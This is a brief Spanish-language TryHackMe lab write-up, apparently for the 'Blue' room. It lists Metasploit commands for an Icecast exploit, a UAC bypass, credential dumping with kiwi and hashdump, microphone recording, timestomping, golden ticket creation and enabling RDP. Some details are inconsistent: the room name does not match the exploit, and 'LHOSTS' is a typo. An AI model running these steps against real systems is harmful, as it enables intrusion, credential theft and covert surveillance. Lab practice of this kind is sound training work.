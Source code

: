 # Blue - TryHackMe

**IP:** 10.10.194.133

## Puertos Abiertos
```
49152-49160/tcp open  msrpc
```

## Explotación
- Uso de `msfconsole` con exploit:
```bash
use exploit/windows/http/icecast_header
set LHOSTS <mi_ip>
set RHOSTS 10.10.194.133
run
```

- Post-explotación:
```bash
getsystem
systeminfo
background
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

- Escalada UAC:
```bash
use windows/local/bypassuac_eventvwr
set SESSION 2
run
```

- Operaciones avanzadas con Meterpreter:
```bash
getprivs
migrate <PID>
getuid
load kiwi
creds_all
hashdump
screenshare
record_mic
timestomp
golden_ticket_create
```

- Habilitar RDP:
```bash
use post/windows/manage/enable_rdp
set SESSION 3
run
```
